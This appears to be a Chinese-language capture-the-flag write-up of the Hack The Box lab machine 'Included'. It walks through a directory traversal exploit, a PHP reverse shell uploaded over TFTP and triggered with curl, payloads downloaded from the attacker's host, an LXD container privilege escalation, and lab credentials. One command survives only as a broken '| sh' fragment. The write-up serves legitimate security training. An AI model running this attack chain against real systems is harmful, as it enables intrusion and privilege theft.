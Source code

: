 # Included
###### tags: `HTB_Starting Point`

1. 枚舉(Enumeration)
* 先用Ping確認VPN可以成功連線到靶機
```
ping -c 2 10.10.10.55
```
![](https://i.imgur.com/yuMLMks.png)
* 用Nmap做PortScan，看有哪些開啟的Port，並儲存結果
```
nmap -A -T4 -oA nmap/Included 10.10.10.55
```
![](https://i.imgur.com/MX2idcB.png)

從上圖可知，只有80 Port是開啟的狀態

* 再次使用Nmap，查看HTTP Server的系統以及版本
```
nmap -sV -sC -oN nmap/Included.namp -p 80 10.10.10.55
```
![](https://i.imgur.com/YVvMOQo.png)

* 開啟Web Browser以及Burp Suite查看一下80 Port

![](https://i.imgur.com/qYxi59Z.png)

![](https://i.imgur.com/cgxpZaw.png)

沒有看到什麼有趣的地方

* 一樣使用Dirsearch查看有沒有隱藏的目錄
```
sudo python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.55 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```
![](https://i.imgur.com/XAFYJHF.png)
嘗試連往/server-status，但權限不夠
![](https://i.imgur.com/MY25ecc.png)

* 通過查看 URL，我們可以假設這裡存在一些[目錄遍歷漏洞](https://portswigger.net/web-security/file-path-traversal)。所以讓我們檢查一下。

![](https://i.imgur.com/mOKoJix.png)
![](https://i.imgur.com/Rza3ylb.png)
![](https://i.imgur.com/rzp9DUU.png)

如上圖所見，我們有目錄遍歷漏洞。如果我們可以上傳任何反向 shell 腳本，我們就可以調用該文件並利用此漏洞獲得成功。
* 再仔細看一次/etc/passwd 中可用的所有用戶，有tftp的帳號，由於是走UDP69，可以用namp針對[TFTP服務]https://nmap.org/nsedoc/scripts/tftp-enum.html)進行掃描
![](https://i.imgur.com/tzqpEkW.png)

```
sudo nmap -sU -p 69 --script tftp-enum.nse --script-args tftp-enum.filelist=customlist.txt 10.10.10.55
```
![](https://i.imgur.com/HNrFg4y.png)

```
sudo nmap -sU -p69 10.10.10.55
```
![](https://i.imgur.com/vfyxGEH.png)

* 嘗試連接到該服務。
```
sudo tftp 10.10.10.55
```
![](https://i.imgur.com/NulssPh.png)

我們可以連接到該服務，也可以使用該服務上傳任何文件。但是該如何知道該文件存儲的確切路徑？
* 可以再次檢查 /etc/passwd 文件以了解文件上傳到 TFTP 後的位置(/var/lib/tftpboot)。
![](https://i.imgur.com/rnWpLIj.png)

2. 首先我們需要創建 PHP 反向 Shell。我們可以簡單地從我們的 kali webshell 目錄或使用[revshell.com](https://www.revshells.com/)自動創建一個。
```
vim  Reverse.php
head Reverse.php
```
![](https://i.imgur.com/dHeSdG1.png)


* 將檔案用TFTP上傳
```
put Revese.php
```
![](https://i.imgur.com/QwBXbeA.png)

* Exploit!
```
curl 10.10.10.55/?file=../../../../../var/lib/tftpboot/Reverse.php
```
![](https://i.imgur.com/fCcdFDD.png)
![](https://i.imgur.com/czk4gJx.png)

* 升級Shell
```
python3 -c "import pty; pty.spawn('/bin/bash')"
```
![](https://i.imgur.com/uNv4vGD.png)
* 獲得一般使用者權限
再次看一下目錄遍歷的清單，可以發現一個帳戶為Mike，還記得這些靶機環環相扣嗎?
我們曾經在其他靶機上獲得下列使用者帳戶跟密碼
mike：Sheffield19

```
su mike
cat /home/mike/user.txt
```
![](https://i.imgur.com/uE4xBoV.png)

3. 提權(Privilege Escalation)
* 當涉及到提權時，我們可以手動逐一檢查，或者我們可以簡單地運行任何自動化腳本來為我們進行搜索。由於靶機使用的Linux，選擇使用[linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
```
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
```
![](https://i.imgur.com/CNA5TzO.png)

* 啟用 python demon server
```
sudo python3 -m http.server
```
![](https://i.imgur.com/vgyk4I3.png)

* 在靶機端連到我們架設的sever下載linPEAS並執行
``` | sh
```
* 我們可以通過查看輸出文件來找出可以利用的地方

![](https://i.imgur.com/s9nan9u.png)

由上圖可知，mike在LXD群組中。 LXD群組是Linux系統中的一個高權限群組。

* 這裡有一篇關於[lxd/lxc提權](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-2)的方法，首先從Github上Clone到Kali主機上並建構一個alpine image。

```
su root
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
/build-alpine
```
![](https://i.imgur.com/niUjhmm.png)

* 執行build-alpine文件後，應該會創建一個tar.gx文件，現在我們再次用python Demon web server將檔案上傳，讓靶機下載
```
sudo python3 -m http.server
```
![](https://i.imgur.com/vnti5Ff.png)

```
wget http://10.10.14.10:8000/alpine-v3.13-x86_64-20210603_0628.tar.gz
```
![](https://i.imgur.com/HawOZrq.png)

* 導入映像並使用它創建特權容器。
```
lxc image import alpine-v3.13-x86_64-20210603_0628.tar.gz --alias myimage
xc image list
lxc init myimage mycontainer -c security.privileged=true
```
![](https://i.imgur.com/BLnex54.png)

* 接下來我們需要將 /root 掛載到鏡像中。
```
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```
![](https://i.imgur.com/siNW7hC.png)


* 現在讓我們與容器進行交互
```
lxc start mycontainer 
lxc exec mycontainer /bin/sh
```
![](https://i.imgur.com/aQZjtHS.png)

* Get Flag
```
cat /mnt/root/root/root.txt
```
![](https://i.imgur.com/7LyVQOU.png)

4. Post Exploitation

* 在/mnt/root/root路徑下，我們可以發現login.sql檔案
```
cd /mnt/root/root
ls -al
```
![](https://i.imgur.com/Q9HlxLn.png)

* 發現機敏資料Daniel : >SNDv*2wzLWf
```
cat login.sql 
```
![](https://i.imgur.com/KI4SrOb.png)
